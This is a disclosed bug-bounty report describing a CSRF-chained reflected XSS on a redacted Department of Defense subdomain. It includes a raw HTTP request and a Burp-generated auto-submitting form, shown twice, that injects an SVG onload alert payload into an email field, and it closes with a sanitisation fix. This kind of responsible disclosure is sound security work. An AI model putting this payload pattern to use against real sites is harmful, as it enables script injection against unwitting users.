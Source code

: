 # CSRF Based XSS @ https://██████████

## Report Details
- **Report ID**: 1147949
- **URL**: https://hackerone.com/reports/1147949
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-03T18:48:35.803Z
- **Disclosed**: 2021-06-30T20:44:03.799Z

## Reporter
- **Username**: nagli
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary:
Good Afternoon Team,

I recently discovered subdomain https://██████████/█████████ from a POST Based XSS which when combined with CSRF allows for seemless XSS.

███

HTTP Request
```
POST /██████ HTTP/1.1
Host: █████████
Connection: close
Content-Length: 619
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://███████
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://█████/████
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,eu;q=0.7,he;q=0.6
Cookie:███████

██████████
```

Owing to the lack of CSRF Protections in the above request, it is trivial to chain CSRF -> XSS on this domain.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://███/████████" method="POST">
      <input type="hidden" name="action" value="F█████" />
      <input type="hidden" name="token" value="████████" />
      <input type="hidden" name="frm&#95;email" value="nagli&#64;wearehackerone&#46;com&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="frm&#95;zip5" value="12121" />
      <input type="hidden" name="cmd&#95;submit" value="Submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

~ @naglinagli

## Impact

Utilizing this an attacker could easily carry out the below
XSS on *.██████████

## System Host(s)
████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Set up the following HTML page

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://█████/████████" method="POST">
      <input type="hidden" name="action" value="F███████" />
      <input type="hidden" name="token" value="███████" />
      <input type="hidden" name="frm&#95;email" value="nagli&#64;wearehackerone&#46;com&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="frm&#95;zip5" value="12121" />
      <input type="hidden" name="cmd&#95;submit" value="Submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

And click.

## Suggested Mitigation/Remediation Actions
Sanitize the input being inserted into the frm_email field.

Btw, I think I reported this once and it was fixed, not sure why it reverted back.



## Attachments
No attachments
